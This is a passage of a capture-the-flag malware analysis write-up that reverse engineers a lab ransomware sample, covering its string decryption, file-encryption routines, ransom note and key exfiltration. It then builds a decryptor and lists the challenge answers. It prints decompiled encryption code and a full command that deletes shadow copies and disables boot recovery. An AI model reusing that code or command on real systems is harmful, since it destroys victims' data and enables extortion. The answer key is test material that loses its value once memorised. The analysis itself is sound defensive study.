          &pcchString) )
    return 0i64;
  pszString = AllocateMemoryFromHeap(pcchString);
  if ( CryptBinaryToStringA(
         fileEncryptionKey,
         0x20u,
         0x40000001u, // CRYPT_STRING_NOCRLF | CRYPT_STRING_BASE64
         pszString,
         &pcchString) )
  {
    return pszString;
  }
  else
  {
    return 0i64;
  }
}
```

At this point, I skipped the file encryption step (since that would have taken a very long time) and moved on to parsing the next function.

The first thing that caught my eye was the decryption of some lines and, apparently, the generation of the Important.txt file:

```cpp
decryptString(a192_168_1_104, 0x1Cu);
MemoryFromHeap = AllocateMemoryFromHeap(0xEu);
decryptString(aUserInfo, 0x49u); // "{'Name' : %s , 'Computer' : %s , 'Proc' : %s , 'Key' : %s , 'Id' : %s}"
decryptString(aImportantTxt, 0x1Cu); // "Important.txt"
decryptImportantInformation(aImportantInfo, 0x31Bu);
CollectPCInfo(); // just collects information about the pc using API functions, etc.
v4 = sub_7FF749A73000();
result = CreateFileW(aImportantTxt, 0xC0000000, 0, 0i64, 2u, 0x80u, 0i64);
```

`aImportantInfo` uses a different function to decrypt the string, but it's not much different from the previous one (except that it uses a different key), I brought it into a working understandable form:

```cpp
std::string decrypt_2(std::vector<unsigned char> buffer)
{
    char key[16] = {0x13, 0x3D, 0x19, 0x0C, 0x36, 0x2E, 0x65, 0x61, 0x1B, 0x29, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0};

    const auto size = buffer.size();
    for (unsigned int i = 0; i < size; ++i)
    {
        buffer[i] -= i;
        buffer[i] ^= key[i % 0xA];
    }
    return std::string(buffer.begin(), buffer.end());
}
```

`aImportantInfo` after decryption contains this text:

```
!!!!Important Information!!!!

I - What's Happened ?

All your important files got encrypted by my Lovely Ransomware , U can check that but remeber U dont have enough time to
 play around.

II - What To do ?

I garantie that all your files can be recovered by purchasing my software , To do so follow the instructions below:

1: Pay 2000$ worth of bitcoin to this address : bc1qntgwduujdjnfv6txwxugdsx6nw5mfhgqa4nn82
2: Send me an email containing the ID below to the following address and i'll contact u soon : nebilij251@rencr.com .

ID = {}

III - What not to do ?
1- Please dont change the filename of any encrypted file in your computer.
2- Dont waste Your time searching for free decryptors , I've Encrypted all your files with a very strong algorithm.

Good Luck !!!!!!!!!!!!!
```

Just the ransomware text, so we won't take a long time to parse this.
Below we can see the opening of this file (via notepad.exe), as well as sending information about the user to the server:

```cpp
hFile = CreateFileW(aImportantTxt, 0xC0000000, 0, 0i64, 2u, 0x80u, 0i64);
if ( hFile != (HANDLE)-1i64 )
{
    v0 = strlen(Str);
    WriteFile(hFile, lpBuffer, v0 + 793, &NumberOfBytesWritten, 0i64);
    CloseHandle(hFile);
    FreeHeapMemory((__int64)lpBuffer);
    s_strcpy(aImportantTxt, fileData, 14);
    OpenImporantFile(fileData);
    SendUserInfo(); // send user info to the hacker (192.168.1.104:8000 in this case)
    ExitProcess(0);
}
```

So, the main function now looks like this:

```cpp
int __fastcall main(int argc, const char **argv, const char **envp)
{
  if ( IsMalwareAlreadyRunning() )
    ExitProcess(0);
  ShutdownForEnabledDebugger();
  RunProcessAtLowIntegrity();
  DestroyRecoveryAndBackup();
  DecryptEncryptionTables();
  EncryptFilesData();
  LogUserInfoAndCreateNote();
  return 0;
}
```

Let's move on to the file encryption algorithm, since we skipped it in the previous step, and for good reason: it's the longest, albeit quite interesting part.
To understand what exactly is going on we need to go back to the declaration of the `EncryptFilesData` function:

```cpp
__int64 EncryptFilesData()
{
  int v0; // eax
  int v1; // eax
  BOOL v2; // r8d
  char *aWindowsUsers; // [rsp+20h] [rbp-248h]
  WCHAR *folderPath; // [rsp+28h] [rbp-240h]
  LPSTR WindowsDirectoryA; // [rsp+30h] [rbp-238h]
  char v7[520]; // [rsp+40h] [rbp-228h] BYREF

  if ( !shlwapiModule )
    GetShlwapiModule();
  AllocateFileEncryptionKey();
  targetExtensions = GetTargetFileExtensionsAddress();
  DecryptDotNasoString();
  LoadMutex();
  encryptFileThreads = CreateEncryptFileThreads();
  memset(v7, 0, sizeof(v7));
  WindowsDirectoryA = thunk_GetWindowsDirectoryA();
  decryptString(aUsers, 9u);
  aWindowsUsers = concat(WindowsDirectoryA, aUsers);
  v0 = strlen(aWindowsUsers);
  folderPath = AllocateMemoryFromHeap(2 * v0 + 2);
  v1 = strlen(aWindowsUsers);
  ASCIIToWchar(aWindowsUsers, folderPath, v1);
  FreeHeapMemory(aWindowsUsers);
  sub_7FF749A78960(folderPath);
  encryptFileMutex = 0;
  LOBYTE(v2) = 1;
  WaitForMultipleObjects(nCount, encryptFileThreads, v2, 0xFFFFFFFF);
  USER_KEY = GetEncryptedKeyAsBase64();
  FreeHeapMemory(encryptFileThreads);
  RtlZeroMemory_0(fileEncryptionKey, 32i64);
  FreeHeapMemory(fileEncryptionKey);
  FreeHeapMemory(folderPath);
  return UnloadMutex();
}
```

<aside>
✅

I am writing this part of the text after I finished understanding the file encryption algorithm and completed the final assignment, so further snippets will be as detailed and clear as possible

</aside>

The virus forms the string `C:\Windows\Users\*` and starts searching for files suitable for encryption (those with the above-mentioned extensions).

We can see that separate threads are used for encryption, let's go to the corresponding function:

```cpp
__int64 CreateEncryptFileThreads()
{
  DWORD i; // [rsp+30h] [rbp-18h]
  __int64 MemoryFromHeap; // [rsp+38h] [rbp-10h]

  sub_7FF749A78940();
  MemoryFromHeap = AllocateMemoryFromHeap(16 * nCount);
  for ( i = 0; i < 2 * nCount; ++i )
    *(MemoryFromHeap + 8i64 * i) = CreateThread(0i64, 0i64, EncryptFileThread, 0i64, 0, 0i64);
  return MemoryFromHeap;
}
```

Just starting threads, jumping into the next one:

```cpp
pFileDataUnkn *__fastcall EncryptFileThread(LPVOID lpThreadParameter)
{
  pFileDataUnkn *result; // rax
  __int64 v2; // [rsp+38h] [rbp-20h]

  while ( 1 )
  {
    RtlEnterCriticalSection(&CriticalSection);
    while ( !currentFileEncrypt.prev && encryptFileMutex )
      SleepConditionVariableCS(&ConditionVariable, &CriticalSection, 0xFFFFFFFF);
    if ( !currentFileEncrypt.prev && !encryptFileMutex )
      break;
    v2 = *(currentFileEncrypt.next->next + 16);
    FilePathDestroyNode(&currentFileEncrypt, currentFileEncrypt.next->next);
    RtlLeaveCriticalSection(&CriticalSection);
    thunk_EncryptFile(v2);
    result = currentFileEncrypt.prev;
    if ( !result )
      return result;
  }
  RtlLeaveCriticalSection(&CriticalSection);
  return RtlWakeConditionVariable(&ConditionVariable);
}
```

<aside>
💡

Here I have declared a custom structure, because accessing its elements was rather unreadable. Perhaps I did not understand its purpose correctly, but it is not important, as it will not be useful in the analysis of the algorithm

</aside>

The following features look more interesting:

```cpp
__int64 __fastcall thunk_EncryptFile(wchar_t *fileName)
{
  EncryptFile(fileName, fileEncryptionKey);
  return FreeHeapMemory(fileName);
}

__int64 __fastcall EncryptFile(wchar_t *name, BYTE *encryptionKey)
{
  int v2; // eax
  int fileNameLength; // eax
  __int64 result; // rax
  unsigned __int8 alignBytes; // [rsp+40h] [rbp-78h]
  bool v6; // [rsp+41h] [rbp-77h]
  unsigned __int8 needEncrypt; // [rsp+42h] [rbp-76h]
  unsigned int i; // [rsp+44h] [rbp-74h]
  unsigned int v9; // [rsp+48h] [rbp-70h]
  char *a2; // [rsp+50h] [rbp-68h]
  HANDLE hFile; // [rsp+60h] [rbp-58h]
  int a3; // [rsp+68h] [rbp-50h]
  DWORD LastError; // [rsp+6Ch] [rbp-4Ch]
  char *filePath; // [rsp+70h] [rbp-48h]
  CHAR *fileName; // [rsp+78h] [rbp-40h]
  const WCHAR *lpNewFileName; // [rsp+80h] [rbp-38h]
  __int64 v17; // [rsp+88h] [rbp-30h]
  LARGE_INTEGER FileSize; // [rsp+98h] [rbp-20h] BYREF
  __int64 v19; // [rsp+A0h] [rbp-18h]

  needEncrypt = 0;
  v2 = wstrlen(name);
  fileName = AllocateMemoryFromHeap(v2 + 1);
  fileNameLength = wstrlen(name);
  s_strcpy(name, fileName, fileNameLength);
  v17 = std::ostream::operator<<(std::cout, name);
  std::ostream::operator<<(v17, sub_7FF749A77710);
  filePath = PathFindExtensionA(fileName);
  // Should the file be encrypted
  if ( *filePath )
  {
    v9 = strlen(filePath);
    a2 = AllocateMemoryFromHeap(v9);
    memcpy_0(a2, filePath + 1, v9 - 1);
    sub_7FF749A764B0(a2, v9 - 1);
    for ( i = 0; i < 0x24; ++i )
    {
      a3 = strlen(*&targetExtensions[8 * i]);
      if ( compare(*&targetExtensions[8 * i], a2, a3) )
      {
        needEncrypt = 1;
        break;
      }
    }
    FreeHeapMemory(a2);
  }
  FreeHeapMemory(fileName);
  result = needEncrypt;
  if ( needEncrypt )
  {
    result = CreateFileW(name, 0xC0000000, 0, 0i64, 3u, 0x80u, 0i64);
    hFile = result;
    if ( result != -1 )
    {
      v6 = GetFileSizeEx(result, &FileSize);
      result = v6;
      if ( v6 )
      {
        alignBytes = 16 - FileSize.QuadPart % 0x10ui64;
        if ( alignBytes == 16 )
          alignBytes = 0;
        if ( FileSize.QuadPart >= 0x10000ui64 ) // large than 65536 bytes
        {
          result = EncryptLargeFile(hFile, name, FileSize.QuadPart + alignBytes + 17, alignBytes, encryptionKey);
          if ( !result )
            return result;
        }
        else
        {
          result = EncryptSmallFile(hFile, name, FileSize.LowPart + alignBytes + 17, alignBytes, encryptionKey);
          if ( !result )
            return result;
        }
        lpNewFileName = wstrmerge(name, aNaso);
        if ( !MoveFileW(name, lpNewFileName) )
        {
          LastError = GetLastError();
          v19 = std::ostream::operator<<(std::cout, LastError);
          std::ostream::operator<<(v19, sub_7FF749A77710);
        }
        return FreeHeapMemory(lpNewFileName);
      }
    }
  }
  return result;
}
```

Yes, this function was not easy to parse, but now it appears to us in the most understandable and readable form, so let's understand its action on our fingers:

1. Searching for files whose extensions are equal to the desired ones
2. Opening the file to be encrypted
3. Calculating the required number of bytes for 16-byte alignment
4. Branching based on file size (larger than 65536 bytes are considered large)
5. Passing to the appropriate function the file descriptor, file name, alignment-aware size and ***decryption information****, as well as the key.
6. Adding the .naso extension to the encrypted file and freeing resources

**`EncryptLargeFile`** uses the same logic as small files, except that it processes them in batches, so we won't look at it separately, but rather at the **EncryptSmallFile:** function.

```cpp
bool __fastcall EncryptSmallFile(
        HANDLE hFile,
        wchar_t *fileName,
        DWORD fileSize,
        char alignBytes,
        uint8_t *encryptionKey)
{
  int v6; // eax
  _BYTE *FileData; // [rsp+30h] [rbp-258h]
  void *lpBaseAddress; // [rsp+38h] [rbp-250h]
  HANDLE hObject; // [rsp+40h] [rbp-248h]
  BYTE *EncryptionIV; // [rsp+48h] [rbp-240h]
  _BYTE *EncryptionData; // [rsp+50h] [rbp-238h]
  char v12[528]; // [rsp+60h] [rbp-228h] BYREF

  hObject = CreateFileMappingW(hFile, 0i64, 4u, 0, fileSize, 0i64);
  if ( !hObject )
    return 0;
  lpBaseAddress = MapViewOfFile(hObject, 6u, 0, 0, 0i64);
  EncryptionIV = AllocateHeapAndGenerateRandomData(0x10u);
  EncryptionData = AllocateMemoryFromHeap(0x100u);
  PrepareEncryption(EncryptionData, encryptionKey, EncryptionIV);
  FileData = AllocateMemoryFromHeap(fileSize);
  *FileData = alignBytes;
  memcpy_0(FileData + 1, EncryptionIV, 0x10ui64);
  memcpy_0(FileData + 17, lpBaseAddress, fileSize - 17);
  EncryptBlock(EncryptionData, FileData + 17, fileSize - 17);
  memcpy_0(lpBaseAddress, FileData, fileSize);
  FreeHeapMemory(FileData);
  UnmapViewOfFile(lpBaseAddress);
  CloseHandle(hObject);
  CloseHandle(hFile);
  memset(v12, 0, 520ui64);
  v6 = wstrlen(fileName);
  memcpy_0(v12, fileName, (2 * v6));
  FreeHeapMemory(EncryptionIV);
  FreeHeapMemory(EncryptionData);
  return 1;
}
```

Now let's analyze the action of this function:

1. Preparing the data used for encryption (`encryptionKey` and `encryptionIV` are generated once in rantime after the virus starts)
2. Writing the data to a file for subsequent decryption:
    1. UINT8: Number of bytes used for alignment (so we can remove them from the file after decryption)
    2. UINT128: The generated IV (yes, it is just stored in the file in its original form)
3. The following bytes already write the encrypted content itself

Let's move on to the encryption process itself:

```cpp
__int64 __fastcall XORArrays(_BYTE *dest, _BYTE *src)

  unsigned __int8 i; // [rsp+0h] [rbp-18h]

  for ( i = 0; i < 10; ++i )
  {
    dest[i] ^= src[i];
  }
}

_BYTE *__fastcall EncryptBlock(_BYTE *src, _BYTE *dest, unsigned __int64 size)
{
  _BYTE *result; // rax
  unsigned __int64 i; // [rsp+20h] [rbp-28h]
  _BYTE *prev_dest; // [rsp+28h] [rbp-20h]

  prev_dest = src + 240;
  for ( i = 0i64; i < size; i += 16i64 )
  {
    XORArrays(dest, prev_dest);
    EncryptBlockPart(dest, src);
    prev_dest = dest;
    dest += 16;
  }
  result = src;
  qmemcpy(src + 240, prev_dest, 0x10ui64); // idk what is it
  return result;
}
```

Here we go through the 16 bytes of the file and apply various changes to it, the first one is quite simple: we take the previous encrypted data and use it as the XOR key for the current one (for the first iteration, we take the last 16 bytes of `encryptionData`), and after that we move on to the encryption itself:

```cpp
__int64 __fastcall EncryptData(_BYTE *dest, _BYTE *src)
{
  unsigned __int8 i; // [rsp+20h] [rbp-18h]

  XORFromIndex(0, dest, src);
  for ( i = 1; ; ++i )
  {
    EncryptSubstitution(dest);
    EncryptShifts(dest);
    if ( i == 14 )
      break;
    XORData(dest);
    XORFromIndex(i, dest, src);
  }
  return XORFromIndex(14u, dest, src);
}
```

Here I've also signed the functions for more convenience, I'll give them below:

```cpp
void __fastcall XORFromIndex(unsigned __int8 k, _BYTE *dest, _BYTE *src)
{
  unsigned __int8 j; // [rsp+0h] [rbp-18h]
  unsigned __int8 i; // [rsp+1h] [rbp-17h]

  for ( i = 0; i < 4u; ++i )
  {
    for ( j = 0; j < 4u; ++j )
      dest[4 * i + j] ^= src[16 * k + 4 * i + j];
  }
}

void __fastcall EncryptSubstitution(_BYTE *a1)
{
  unsigned __int8 j; // [rsp+0h] [rbp-18h]
  unsigned __int8 i; // [rsp+1h] [rbp-17h]

  for ( i = 0; i < 4u; ++i )
  {
    for ( j = 0; j < 4u; ++j )
      a1[4 * j + i] = byte_7FF749A7E0C0[a1[4 * j + i]];
  }
}

void __fastcall EncryptShifts(_BYTE *dest)
{
  char v1; // [rsp+0h] [rbp-18h]
  char v2; // [rsp+0h] [rbp-18h]
  char v3; // [rsp+0h] [rbp-18h]
  char v4; // [rsp+0h] [rbp-18h]

  v1 = dest[1];
  dest[1] = dest[5];
  dest[5] = dest[9];
  dest[9] = dest[13];
  dest[13] = v1;
  v2 = dest[2];
  dest[2] = dest[10];
  dest[10] = v2;
  v3 = dest[6];
  dest[6] = dest[14];
  dest[14] = v3;
  v4 = dest[3];
  dest[3] = dest[15];
  dest[15] = dest[11];
  dest[11] = dest[7];
  dest[7] = v4;
}

__int64 __fastcall ShiftAndXorTransform(unsigned __int8 a1)
{
  return (27 * ((a1 >> 7) & 1)) ^ (2 * a1);
}

void __fastcall XORData(_BYTE *dest)
{
  unsigned __int8 i; // [rsp+20h] [rbp-18h]
  uint8_t total_xor; // [rsp+22h] [rbp-16h]
  uint8_t saved_first_byte; // [rsp+23h] [rbp-15h]

  for ( i = 0; i < 4u; ++i )
  {
    saved_first_byte = dest[4 * i];
    total_xor = dest[4 * i + 3] ^ dest[4 * i + 2] ^ dest[4 * i + 1] ^ saved_first_byte;
    dest[4 * i] = total_xor ^ ShiftAndXorTransform(dest[4 * i + 1] ^ saved_first_byte) ^ saved_first_byte;
    dest[4 * i + 1] ^= total_xor ^ ShiftAndXorTransform(dest[4 * i + 2] ^ dest[4 * i + 1]);
    dest[4 * i + 2] ^= total_xor ^ ShiftAndXorTransform(dest[4 * i + 3] ^ dest[4 * i + 2]);
    dest[4 * i + 3] ^= total_xor ^ ShiftAndXorTransform(saved_first_byte ^ dest[4 * i + 3]);
  }
}
```

This is the entire encryption algorithm - it consists of 5 steps (4 functions here, and XOR before sending here), our job is to do the inverse calculations based on these.

To summarize:

<aside>
💡

1. To decrypt the file, we need to rewrite the functions to work in reverse order.
2. To initialize encryptionData (`PrepareEncryptionData` function) we need to have encryptionKey and encryptionIV.

**`encryptionKey`**: encrypted by XOR with key 0xBB, converted to base64 and sent over the network to the attacker
**`encryptionIV`**: stored in [1:16] bytes of the encrypted file, according to the above structure

</aside>

Let's outline the future structure of the decoder:

```cpp
bool DecryptSmallFile(HANDLE hFile, const wchar_t* fileName, DWORD fileSize, uint8_t* decryptionKey)
{
    auto hObject = CreateFileMappingW(hFile, nullptr, PAGE_READWRITE, 0, fileSize, nullptr);
    if (!hObject) return false;

    auto lpBaseAddress = MapViewOfFile(hObject, FILE_MAP_ALL_ACCESS, 0, 0, 0);
    if (!lpBaseAddress) {
        CloseHandle(hObject);
        return false;
    }

    // Read unencrypted data
    uint8_t alignBytes = 0;
    memcpy(&alignBytes, reinterpret_cast<uint8_t*>(lpBaseAddress), 1);
    std::vector<uint8_t> EncryptionIV(0x10, 0x0);
    memcpy(EncryptionIV.data(), reinterpret_cast<uint8_t*>(lpBaseAddress) + 1, 16);

    // Read encrypted data
    std::vector<uint8_t> FileData(fileSize - 17, 0x0);
    memcpy(FileData.data(), reinterpret_cast<uint8_t*>(lpBaseAddress) + 17, FileData.size());

    // Unmap and close handles after reading the necessary data
    UnmapViewOfFile(lpBaseAddress);
    CloseHandle(hObject);
    CloseHandle(hFile);

    // Restore encrypted key
    std::vector<uint8_t> EncryptionData(0x100, 0x0);
    PrepareEncryption(EncryptionData.data(), decryptionKey, EncryptionIV.data());

    // Decode data
    std::vector<uint8_t> DecryptedData(0x100, 0x0);
    DecryptBlock(EncryptionData.data(), FileData.data(), FileData.size());

    // Reopen the file with appropriate flags for writing
    hFile = CreateFileW(fileName, GENERIC_WRITE, 0, nullptr, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, nullptr);
    if (hFile == INVALID_HANDLE_VALUE) return false;

    // Write decrypted data back to the file
    DWORD bytesWritten = 0;
    if (!WriteFile(hFile, FileData.data(), static_cast<DWORD>(FileData.size() - alignBytes), &bytesWritten, nullptr)) {
        CloseHandle(hFile);
        return false;
    }

    // Close the file handle
    CloseHandle(hFile);

    return true;
}

void DecodeFile(const wchar_t* name, uint8_t* key)
{
    auto hFile = CreateFileW(name, GENERIC_READ | GENERIC_WRITE, NULL, NULL, OPEN_EXISTING, 0x80, NULL);
    if (hFile == INVALID_HANDLE_VALUE)
    {
        std::cerr << "Unable to open file." << std::endl;
        return;
    }

    LARGE_INTEGER fileSize;
    if (GetFileSizeEx(hFile, &fileSize))
    {
        bool result = DecryptSmallFile(hFile, name, fileSize.LowPart, key);
        if (!result)
        {
            std::cerr << "Unable to decrypt file." << std::endl;
            return;
        }
        std::cout << "Successfully decrypted." << std::endl;
    }
}
```

**`PrepareEncryption`** is completely identical to the original function, so I won't give it here.

**`DecryptBlock`** will take the following form:

```cpp
void DecryptBlockPart(uint8_t* dest, uint8_t* src)
{
    DecryptXORFromIndex(14, dest, src); // [+]
    for (int i = 14; i >= 1; i--)
    {
        if (i != 14) {
            DecryptXORFromIndex(i, dest, src); // [+]
            DecryptXORData(dest); // [+]
        }

        DecryptShifts(dest); // [+]
        DecryptSubstitution(dest); // [+]
    }

    DecryptXORFromIndex(0, dest, src);
}

void DecryptBlock(uint8_t* src, uint8_t* dest, uint64_t size)
{
    constexpr auto offset = 256 - 16;

    std::vector<uint8_t> encrypted_prev(src + offset, src + offset + 16);
    std::vector<uint8_t> current_block(16);

    for (int64_t i = 0; i < size; i += 16)
    {
        std::copy(dest, dest + 16, current_block.begin());

        DecryptBlockPart(dest, src);

        for (unsigned int j = 0; j < 16; j++)
        {
            dest[j] ^= encrypted_prev[j];
        }

        encrypted_prev = current_block;
        dest += 16;
    }
}
```

As you can see, we now need to save the encrypted data before decrypting it to be able to use it as an XOR key later.

**`DecryptBlockPart`** represents the inverse operations of the **`EncryptBlockPart`** function

Let's get to the most interesting part, the definition of these functions:

```cpp
// DecryptXORFromIndex is identical to XORFromIndex

// It's very funny, though it came to my mind after a considerable amount of time
void DecryptXORData(uint8_t* dest)
{
    for (unsigned int i = 0; i < 3; i++)
    {
        XORData(dest);
    }
}

// Just reversed original
void DecryptShifts(uint8_t* dest)
{
    uint8_t v5 = dest[3];
    dest[3] = dest[7];
    dest[7] = dest[11];
    dest[11] = dest[15];
    dest[15] = v5;

    uint8_t v4 = dest[2];
    dest[2] = dest[10];
    dest[10] = v4;

    uint8_t v3 = dest[6];
    dest[6] = dest[14];
    dest[14] = v3;

    uint8_t v2 = dest[1];
    dest[1] = dest[13];
    dest[13] = dest[9];
    dest[9] = dest[5];
    dest[5] = v2;
}

// Equally interesting
void DecryptSubstitution(uint8_t* dest) {
    for (unsigned int i = 0; i < 16; i++)
    {
        dest[i] = byte_7FF749A7E1C0[dest[i]];
    }
}
```

In fact, it is the last of these functions that raises the most questions - it accesses **`byte_7FF749A7E1C0`**, which is the inverse of the table used in **`EncryptSubstitution`**, and is stored in the file literally so that we can write the decryption.

Without it, this process would be almost unrealizable (due to collisions within the table used for encryption), but it is kindly provided by the author, even though it is not used anywhere in the virus code.

<aside>
💡

It is worth noting that both tables are encrypted by default and decrypted right before we start searching and encrypting files in the main function
(with the key we know - `“Love_Her”`).

These were the unreadable lines at the beginning of the article.

</aside>

For the tests, I also recreated the original file encryption algorithm to verify that it works correctly before trying to decrypt the job file - `Attachment.txt.naso`

---

In time, the algorithm was ready (it took me about two days to solve the whole task, although throughout the article you might have gotten the impression that it was much faster).

Now it was just a matter of finding the key that encrypted the attachment in the archive.
It is now that we will use the analysis of the attached file with the network activity of the “victim”.

We know exactly the IP:PORT of the attacker, so sifting the packet list by it, we get a pretty clear picture:


Base64-encoded encryptionKey

So, the encoded key (base64):

> ZcxYj5wFbcbbd4/mDhQRSQMfcqoFsRywp9+qPVeUUwA=
> 

Convert it to bytes:

> 65 cc 58 8f 9c 05 6d c6 db 77 8f e6 0e 14 11 49 03 1f 72 aa 05 b1 1c b0 a7 df aa 3d 57 94 53 00
> 

We also know that before converting it to base64, it underwent XOR encryption with key 0xBB.
So we will also apply XOR again to decrypt this key:

```python
import base64
pszString = "ZcxYj5wFbcbbd4/mDhQRSQMfcqoFsRywp9+qPVeUUwA="
decoded_bytes = base64.b64decode(pszString)
original_file_encryption_key = bytearray(len(decoded_bytes))

for i in range(len(decoded_bytes)):
original_file_encryption_key[i] = decoded_bytes[i] ^ 0xBB

c_array_string = ", ".join(f"0x{byte:02X}" for byte in original_file_encryption_key)
c_array_output = f"unsigned char fileEncryptionKey[] = {{{c_array_string}}};"
print(c_array_output)
```

The script will output the final key to us as an array.

---

Our file weighs only 145kb, so we decided not to mess around with the **`EncryptLargeFile`** function for a reason.

Now that we have all the tools for decryption, let's finally do it:

```cpp
int main() {
    unsigned char fileEncryptionKey[] = {0xDE, 0x77, 0xE3, 0x34, 0x27, 0xBE, 0xD6,
																				 0x7D, 0x60, 0xCC, 0x34, 0x5D, 0xB5, 0xAF,
																				 0xAA, 0xF2, 0xB8, 0xA4, 0xC9, 0x11, 0xBE,
																				 0x0A, 0xA7, 0x0B, 0x1C, 0x64, 0x11, 0x86,
																				 0xEC, 0x2F, 0xE8, 0xBB};

    DecodeFile(L"F:\\Path\\To\\Attachement.txt.naso", fileEncryptionKey);

    return 0;
}
```

Congratulations!!!

We got the source text for the file:

```
Congratualtion , U were able to decrypt me .  One last thing to say ,  7it ure not doing any effort to know me lol
```

---

# Answers

1. What is the SHA256 hash of the malware?
**83cb5e8b7455fcb3b6c2d45269b08b3ae003dfed4ce8ca942cd007c1ebf17cf2**
2. The malware uses a global mutex to ensure that only one instance of it is being executed at the same time. What is the name of the mutex?
**Global\On3_S1d3d_hard**
3. The malware uses a decryption routine to decrypt its important strings. What is the decryption key used for that?
**Love_Her**
4. The malware checks the parent process to see if it started normally or under a debugger. What is the expected name for the parent process?
**explorer.exe**
5. The malware tries to turn off the computer if it suspects it is running a debugger. What is the Windows API used for that?
**ExitWindows**
6. The malware targets a specific directory and its subdirectories in the drive where the Windows OS is installed. What is the name of this directory?
**Users**
7. Which among these file extensions does the malware not target {png, docx, exe, 7z, zip}?
**.exe**
8. What is the encryption algorithm used for encrypting files? Algorithm-KeyLength?
**AES-256**
9. Before the malware begins its encryption process, it attempts to disable all methods of recovering the original data. What is the full shell command executed for this?
**cmd.exe /c vssadmin.exe Delete Shadows /All /Quiet & bcdedit /set {default} recoveryenabled No & bcdedit /set {default} bootstatuspolicy ignoreallfailures**
10. Once the malware encrypts files, it sends info about the key used and the ID of the victim. Please provide the format used for this?
**{'Name' : %s , 'Computer' : %s , 'Proc' : %s , 'Key' : %s , 'Id' : %s}**
11. What is the IP and port utilized by the malware author?
**192.168.1.104:8000**
12. What is the extension added to the encrypted files?
**.naso**
13. What is the Bitcoin address used by the malware author?
**bc1qntgwduujdjnfv6txwxugdsx6nw5mfhgqa4nn82**
14. Can you decrypt the file provided as an attachment and provide its SHA256 hash?
**e9348cfdb3dcb8f6ab4b6c439750d8a28e65bb8cd71a22472fd01b783e98a126**

# Files

[Update.exe.i64](files/Update.exe.i64)

[decrypt.cpp](files/decrypt.cpp)
